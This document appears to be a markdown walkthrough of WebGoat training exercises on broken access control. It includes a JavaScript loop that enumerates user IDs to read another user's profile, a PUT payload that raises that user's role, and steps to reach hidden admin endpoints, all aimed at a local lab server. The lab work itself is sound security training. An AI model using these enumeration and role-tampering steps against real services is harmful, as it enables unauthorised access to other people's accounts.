

# (A5) Broken Access Control

## Insecure Direct Object References

### Lesson 2: Authenticate First, Abuse Authorization Later

Just type `tom` and `cat`

### Lesson 3: Observing Differences & Behaviors

Open DevTools and in `Network` tab find `profile` request. Find response and type `role,userId` into input.


### Lesson 4: Guessing & Predicting Patterns

In previous [Lesson](#lesson-3-just-try-it) you sent request to `http://localhost:8081/WebGoat/IDOR/profile`. Common practice is to prepare endpoints as `WebGoat/IDOR/profile/{id}`, paste your userId found in request, eg. `WebGoat/IDOR/profile/2342384`

### Lesson 5: Playing with the Patterns

- use this script to find another user id.

  ``` js
  for(i = 1; i < 100; i++) {
    let result = await fetch("http://localhost:8081/WebGoat/IDOR/profile/" + (parseInt(2342384+i)));
    if(result.status === 200) {
        console.log(await result.json());
        break;
    }
  }
  ```

- the result will be like this:

  ``` json
  {
    "lessonCompleted": true,
    "feedback": "Well done, you found someone else's profile",
    "output": "{role=3, color=brown, size=large, name=Buffalo Bill, userId=2342388}",
    "assignment": "IDORViewOtherProfile",
    "attemptWasMade": true
  }
  ```

- then we should edit this user, we will use `PUT` method. Payload:

  ``` json
  {
    "role" : 1,
    "color": "red",
    "size": "large",
    "name": "Bufallo Bill",
    "userId": "2342388"
  }
  ```

  remember to set `Content-Type` to `application/json`

  

## Missing Function Level Access Contol

### Lesson 2: Relying on Obscurity

- Look for hidden list in DOM structure

  

- `Users` and `Config`

### Lesson 3: Just Try It

- Hint says to look for hidden endpoints from the prevoius [Lesson](#lesson-2-relying-on-obscurity). There was two `/config` and `/users`. So the full url is `http://localhost:8081/WebGoat/users`. Another hint says to set `Content-Type` to `application/json`.

  
